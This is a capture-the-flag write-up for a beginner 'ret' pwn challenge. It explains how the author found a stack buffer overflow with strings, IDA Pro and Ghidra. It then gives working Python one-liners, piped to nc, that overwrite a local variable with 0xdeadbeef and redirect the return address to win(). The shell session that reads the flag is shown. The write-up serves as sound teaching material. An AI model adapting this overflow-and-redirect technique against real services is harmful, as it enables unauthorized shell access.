










# ret
**Category:** Pwn

**Points:** 50

**Description:**

Author: kablaa

nc ctf.hackucf.org 9003

> **Files:** ret, libpwnableharness32.so

## Write-up
When run the code waits for user input, then prints a message:
```
> nc ctf.hackucf.org 9003
hello
you suck!

```
There was no code provided, so I started by running `strings` over the executable:
```
...
[^_]
you Win!
/bin/sh
you suck!
ctf_ret
;*2$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.7209
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
ret.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
_edata
__data_start
puts@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
exit@@GLIBC_2.0
__dso_handle
handle_connection
_IO_stdin_used
...
```
You can see there is a `you Win!` message which is where we need to get to, the `you suck!` message, and the `handle_connection` function which will do the work. I opened the code in IDA Pro to look at that function. It just calls another function named `func`:



So I looked at the `func` function:



Looking at the `func` function we can see a 4-byte (integer) variable set to 0 (`ebp+var_C`), a call to `scanf()` and a comparison of the variable `ebp+var_C` to `0xdeadbeef`. This means we need to overwrite the interger variable with the value for `oxdeadbeef`. However, this won't be enough. The jump after the comparison doesn't jump to the `win()` function, but instead just returns. This means we also need to overwrite the return pointer on the stack to point to the `win()` function:

I had a look at the decompiled code in Ghidra to confirm what I saw in IDA Pro:



Now we can see we have a 64-byte `buffer`, and our integer `value`. Lets start debuging and look at the stack.

First I create a file containing just 64 `A` characters to help us see our stack layout:
```
> python -c "print('A'*64)" > inp.txt
```
This file can now be used in the **Process options** of the debugger to send the characters to the running process. Now lets run it and look at what's happening.

If we look at the `handle_connection` function, and where it calls `func`, we can see that the next statement after the call is at `0x08048696`:



We can see this address on the stack at `0xffb6e31C`



If we hover the mouse over `ebp+var_C`, we can see the address of that variable on the stack is `0xffb6e30c`:



and if we look at that on the stack we can see it has been set to zero:



If we hover the mouse over `ebp+var_4C`, we can see the address of the buffer on the stack is `0xffb6e2cc`:



and, once we've passed the `scanf()` call, we can see the buffer filled with `A` characters on the stack:



As a first try we can put 64 `A` characters, followed by `0xdeadbeef`, followed by 12 `A` characters, followed by the address of the `win()` function. This will overwrite some other parts of the stack, which may cause problems, but we can try it.

Looking at the code, the address we need for the `win()` function is `0x0804861B`:



We can also see that calling the `win()` function will give us a shell on the server, so we can `cat` the flag file.

 We need to remember that both `0xdeadbeef` and the `win()` address need to be reversed on the stack. However, our return address has the same first four bytes as our `win()` address, so we can just change 1 byte to set it. Our `inp.txt` file is now created with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B')" > inp.txt

Only changing the single value in the address didn't work because `scanf()` adds a `NULL` terminator on the end of the input string, overwriting the next byte with `0x00`. Therefore, I tried again with the full address:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" > inp.txt

This works in the debugger, so now we can test it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003

This didn't work beacuse I forgot to use `cat` to ensure we get chance to interact with the shell. I now tried:
```
> (python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003
you Win!

ls
flag.txt
ret
cat flag.txt
flag{<flag was here>}
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
(python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003

After the `you Win!` message I had a shell and was able to type `ls` and then `cat flag.txt` to get the flag!
